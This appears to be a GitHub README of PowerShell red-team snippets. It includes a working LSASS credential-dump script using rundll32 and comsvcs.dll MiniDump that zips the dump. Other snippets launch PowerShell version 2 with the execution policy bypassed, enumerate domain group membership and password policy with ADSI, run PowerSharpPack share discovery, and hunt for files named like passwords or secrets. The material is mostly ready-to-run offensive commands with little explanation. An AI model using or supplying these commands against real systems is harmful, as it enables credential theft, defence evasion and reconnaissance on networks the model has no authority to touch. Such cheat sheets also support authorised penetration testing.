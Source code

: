 # Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
$ExecutionContext.SessionState.LanguageMode

#Set Proxy SEttings Manually in Powershell (enter in Creds)

$Wcl=New-Object System.Net.WebClient   
$Creds=Get-Credential   
$Wcl.Proxy.Credentials=$Creds   
Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

#lsass dump
$processes = Get-Process
	$location = Get-Location

	$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
			rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression

#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

Execute Powershell with Exec bypass and stay in Version 2

powershell.exe -Version 2 -ExecutionPolicy bypass

#Powershell Specific Tooling

# PowerSharpPack
PowerSharpPack -SharpShares -Command "--shares"

#Domain Enumeration

#Group Membership  
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object


#Aliases

dir = Get-ChildItem


#Current Domain Password Policy
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}



#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv


#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv

